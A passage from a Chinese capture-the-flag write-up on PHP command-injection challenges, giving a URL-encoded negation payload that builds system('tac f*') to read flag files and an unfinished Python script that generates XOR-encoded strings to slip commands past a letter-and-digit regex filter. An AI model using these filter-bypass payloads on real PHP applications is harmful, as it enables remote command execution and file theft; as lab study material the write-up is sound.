 运行脚本构造system(‘tac f*’)得到 `(~%8c%86%8c%8b%9a%92)(~%8b%9e%9c%df%99%d5)`

方法二：

## WEB142

payload:v1=0

## WEB143



无字母数字绕过正则表达式总结：https://blog.csdn.net/miuzzx/article/details/109143413

exp:

```
-- coding:UTF-8 --

Author:dota_st

Date:2021/2/10 12:56

blog: www.wlhhlc.top

import requests
import urllib
import re

生成可用的字符

def write_rce():
    result = ''
    preg = '[a-z]|[0-9]|\+|\-|\.|\_|\||\$|\{|\}|\~|\%|\&|\;'
    for i in range(256):
        for j in range(256):
            if not (re.match(preg, chr(i), re.I) or re.match(preg, chr(j), re.I)):
                k = i ^ j
                if k >= 32 and k <= 126:
                    a = '%' + hex(i)[2:].zfill(2)
                    b = '%' + hex(j)[2:].zfill(2)
                    result += (chr(k) + ' ' + a + ' ' + b + '\n')
    f = open('xor_rce.txt', 'w')
    f.write(result)

根据输入的命令在生成的txt中进行匹配

def action(arg):
    s1 = ""
    s2 = ""
    for i in arg:
        f = open("xor_rce.txt", "r")
        while True:
            t = f.readline()
            if t == "":
                break
            if t[0] == i:
                s1 += t[2:5]
                s2 += t[6:9]
                break
        f.close()
    output = "(\"" + s1 + "\"^\"" + s2 + "\")"
    return (output)


def main():
```